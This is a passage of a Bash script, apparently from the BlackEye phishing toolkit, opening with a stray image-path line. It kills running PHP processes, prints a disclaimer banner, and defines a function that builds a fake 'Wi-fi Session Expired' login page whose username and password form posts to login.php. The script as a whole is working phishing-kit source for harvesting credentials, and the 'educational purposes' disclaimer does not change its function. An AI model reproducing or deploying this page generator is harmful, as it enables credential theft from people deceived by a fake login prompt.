 
checkphp=$(ps aux | grep -o "php" | head -n1)

if [[ $checkphp == *'php'* ]]; then
pkill -f -2 php > /dev/null 2>&1
killall -2 php > /dev/null 2>&1
fi


}

banner() {

printf "\n"
printf "\n"
printf "     \e[101m\e[1;77m:: Disclaimer: Developers assume no liability and are not    ::\e[0m\n"
printf "     \e[101m\e[1;77m:: responsible for any misuse or damage caused by BlackEye.  ::\e[0m\n"
printf "     \e[101m\e[1;77m:: Only use for educational purporses!!                      ::\e[0m\n"
printf "\n"
printf "     \e[101m\e[1;77m:: Attacking targets without mutual consent is illegal!      ::\e[0m\n"
printf "\n"
}

createpage() {
default_cap1="Wi-fi Session Expired"
default_cap2="Please login again."
default_user_text="Username:"
default_pass_text="Password:"
default_sub_text="Log-In"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Title 1 (Default: Wi-fi Session Expired): \e[0m' cap1
cap1="${cap1:-${default_cap1}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Title 2 (Default: Please login again.): \e[0m' cap2
cap2="${cap2:-${default_cap2}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Username field (Default: Username:): \e[0m' user_text
user_text="${user_text:-${default_user_text}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Password field (Default: Password:): \e[0m' pass_text
pass_text="${pass_text:-${default_pass_text}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Submit field (Default: Log-In): \e[0m' sub_text
sub_text="${sub_text:-${default_sub_text}}"

echo "<!DOCTYPE html>" > sites/create/login.html
echo "<html>" >> sites/create/login.html
echo "<body bgcolor=\"gray\" text=\"white\">" >> sites/create/login.html
IFS=$'\n'
printf '<center><h2> %s <br><br> %s </h2></center><center>\n' $cap1 $cap2 >> sites/create/login.html
IFS=$'\n'
printf '<form method="POST" action="login.php"><label>%s </label>\n' $user_text >> sites/create/login.html
IFS=$'\n'
printf '<input type="text" name="username" length=64>\n' >> sites/create/login.html
IFS=$'\n'
printf '<br><label>%s: </label>' $pass_text >> sites/create/login.html
IFS=$'\n'
printf '<input type="password" name="password" length=64><br><br>\n' >> sites/create/login.html
IFS=$'\n'
printf '<input value="%s" type="submit"></form>\n' $sub_text >> sites/create/login.html
printf '</center>' >> sites/create/login.html
printf '<body>\n' >> sites/create/login.html
printf '</html>\n' >> sites/create/login.html
